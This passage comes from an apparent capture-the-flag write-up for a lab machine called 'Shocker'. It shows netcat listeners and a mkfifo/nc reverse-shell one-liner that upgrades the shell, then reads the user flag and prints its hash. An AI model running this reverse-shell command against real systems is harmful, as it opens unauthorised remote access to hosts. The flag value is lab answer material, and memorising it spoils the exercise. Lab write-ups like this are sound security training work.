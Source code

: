 {% highlight text %}
{% raw %}
root@kali:~/ctf/shocker# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.15.101] from (UNKNOWN) [10.10.10.56] 48700
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
{% endraw %}
{% endhighlight %}

But ..... this shell was echoing every key typed. I needed a better shell. 

> On my machine
{:.filename}
{% highlight text %}
{% raw %}
root@kali:~/ctf/shocker# nc -nlvp 1235
listening on [any] 1235 ...
{% endraw %}
{% endhighlight %}

> On the server
{:.filename}
{% highlight text %}
{% raw %}
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LISTENING-IP LISTENING-PORT > /tmp/f
{% endraw %}
{% endhighlight %}

> On my machine
{:.filename}
{% highlight text %}
{% raw %}
root@kali:~/ctf/shocker# nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.15.101] from (UNKNOWN) [10.10.10.56] 35756
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
{% endraw %}
{% endhighlight %}

Now the shell was decent. Flags, here I come!

## Getting the `user` flag (it was boring)
To score the first points, I had to find the `user.txt` file, where the flag was. I took the direct approach:
{% highlight text %}
{% raw %}
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
2ec24e11320026d1e70ff3e16695b233
{% endraw %}
{% endhighlight %}
That was very easy. Let's step up the game.
